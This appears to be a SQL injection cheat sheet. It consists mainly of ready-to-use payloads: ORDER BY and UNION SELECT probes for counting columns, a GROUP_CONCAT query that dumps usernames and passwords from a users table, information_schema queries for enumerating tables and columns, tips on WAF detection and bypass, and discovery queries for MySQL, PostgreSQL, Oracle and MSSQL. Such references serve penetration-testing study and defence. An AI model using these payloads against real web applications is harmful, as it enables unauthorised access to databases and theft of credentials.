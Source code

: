 ### **Detecting Number of Columns**

| Technique | Payload |
| --- | --- |
| ORDER BY | `' ORDER BY 1--` then `' ORDER BY 2--`... until error |
| UNION SELECT | `' UNION SELECT NULL--` then add `,NULL` until no error |

### **Discovering Injectable Columns**

```sql
' UNION SELECT 1,NULL--
' UNION SELECT NULL,2--
' UNION SELECT 1,2,3--
```

→ Replace `NULL` with strings or numbers to identify reflected output.

### Group_Concat

Helpful for extracting multiple rows in a single query.

```sql
SELECT GROUP_CONCAT(username, ':', password SEPARATOR ',') FROM users;
```

> Use with INFORMATION_SCHEMA:
> 

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database();
```

→ This is for MySQL only. Other databases have different functions

### **Detecting WAF Presence**

Sometimes WAFs block specific patterns. We can fingerprint them:

| Test | What it Indicates |
| --- | --- |
| `' AND 1=1--` vs `' AND 1=2--` | If both return same result → WAF |
| Encoded payload blocked | WAF may block `%27` |
| Delays blocked | Sleep functions might be filtered |

We can then **bypass** with encodings, obfuscation, or **time-based fuzzing**.

### **Extracting DB Info**

| Info | MySQL | PostgreSQL | Oracle | MSSQL |
| --- | --- | --- | --- | --- |
| Current DB | `SELECT database();` | `SELECT current_database();` | `SELECT ora_database_name FROM dual;` | `SELECT DB_NAME();` |
| Current User | `SELECT user();` | `SELECT user;` | `SELECT user FROM dual;` | `SELECT SYSTEM_USER;` |
| All DBs | `SELECT schema_name FROM information_schema.schemata;` | same | `SELECT name FROM v$database;` | `SELECT name FROM master..sysdatabases;` |
| All Tables | `SELECT table_name FROM information_schema.tables;` | same | `SELECT table_name FROM all_tables;` | `SELECT table_name FROM information_schema.tables;` |
| All Columns | `SELECT column_name FROM information_schema.columns WHERE table_name='users';` | same | `SELECT column_name FROM all_tab_columns WHERE table_name='USERS';` | same |
